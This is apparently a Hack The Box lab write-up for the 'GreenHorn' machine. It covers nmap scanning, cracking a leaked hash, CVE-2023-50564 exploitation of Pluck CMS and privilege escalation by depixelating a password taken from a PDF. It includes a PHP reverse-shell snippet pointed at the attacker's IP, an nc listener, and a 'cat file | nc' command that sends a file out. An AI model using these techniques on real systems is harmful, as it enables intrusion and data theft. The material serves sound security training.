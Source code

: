 # HTB GreenHorn

Add the DNS into HOSTS

```bash
echo -e '10.129.191.235\t\tgreenhorn.htb'
```

## Admin console page

![admin page](image.png)

## nmap scan for ports 

´´´bash
(base) nathan@ubuntu-desktop:~/Documents/git/ctf_journey$ sudo nmap -sS 10.10.11.25
[sudo] password for nathan: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-02 03:34 CET
Nmap scan report for greenhorn.htb (10.10.11.25)
Host is up (0.022s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3000/tcp open  ppp
´´´

We can see that we have a ppp server running on 3000.

Opening up the web page we can see that there is self hosting git service with the git project.

## User Password

![alt text](image-1.png)

User hash password.

`d5443aef1b64544f3685bf112f6c405218c573c7279a831b1fe9612e3a4d770486743c5580556c0d838b51749de15530f87fb793afdcc689b6b39024d7790163`

![alt text](image-2.png)

We can see that its a sha512 hash. We can try and bruteforce the password.

Simply by trying to use a cracker online I've found the password.
![alt text](image-3.png)

## Admin login
logged in with the password.
![alt text](image-4.png)

Now we can see the pluck version that they are using. 4.7.18.

## CVE CVE-2023-50564

First search found a CVE on Pluck being able to do remote Code Excecution. This is good since this will help us invoke a reverse shell.

![alt text](image-5.png)

Found more info here [github](https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC).
CVE-2023-50564 is a vulnerability that allows unauthorized file uploads in Pluck CMS version 4.7.18. This exploit leverages a flaw in the module installation function to upload a ZIP file containing a PHP shell, thereby enabling remote command execution.

I took the php script in the git and simply added my own IP addr. I had for the VPN.

Snippet : 

```php
        }
    }
}
echo '<pre>';
// change the host address and/or port number as necessary
$sh = new Shell('10.10.14.132', 8888);
$sh->run();
unset($sh);
// garbage collector requires PHP v5.3.0 or greater
// @gc_collect_cycles();
echo '</pre>';
?>

```

Created a ZIP and uploaded to the server VIA import modules.

```bash

(base) nathan@ubuntu-desktop:~/Downloads/GreenHorn/rev/CVE-2023-50564_Pluck-v4.7.18_PoC$ nc -lnvp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.11.25 38794
SOCKET: Shell has connected! PID: 7198
```


## User flag



```bash
whoami 
www-data
ls
README.md
SECURITY.md
admin.php
data
docs
files
images
index.php
install.php
login.php
requirements.php
robots.txt
tree
ls /home/
git
junior
ls /home/junior/
Using OpenVAS.pdf
user.txt
ls -la /home/junior/user.txt
-rw-r----- 1 root junior 33 Nov  2 00:45 /home/junior/user.txt
```

Connect as junior

```bash
su junior
Password: iloveyou1
whoami
junior
```

User flag : 
```bash
cat /home/junior/user.txt
667ba77652cff26d8a402206bf756e8d
```

## Root flag

Saw a pdf file earlier in the logs so lets self transfer it.

Our listening server :
```bash
(base) nathan@ubuntu-desktop:~$ nc -lnvp 8889 > Using_OpenVAS.pdf
Listening on 0.0.0.0 8889
Connection received on 10.10.11.25 50624
```

The file transfer with cat :
```bash
cd /home/junior
ls
user.txt
Using OpenVAS.pdf
cat Using\ OpenVAS.pdf | nc 10.10.14.132 8889
```
We see a pixelated password.
![alt text](image-6.png)

Extract image from pdf : 

```bash
pdfimages Using_OpenVAS.pdf out_pdf.ppm
```

![alt text](image-7.png)

Using [Depix repo](https://github.com/spipm/Depix/tree/main) : 

```bash
python3 depix.py     -p out_pdf.ppm-000.ppm     -s images/searchimages/debruinseq_notepad_Windows10_spaced.png
```

![alt text](output.png)

`sidefromsidetheothersidesidefromsidetheotherside`

su root :

```bash
su root
Password: sidefromsidetheothersidesidefromsidetheotherside
whoami
root
```

Root flag : 

```bash
cd /root
ls
cleanup.sh
restart.sh
root.txt
cat root.txt
eb889c6c6dba0888fdc40b9e327bbbca
```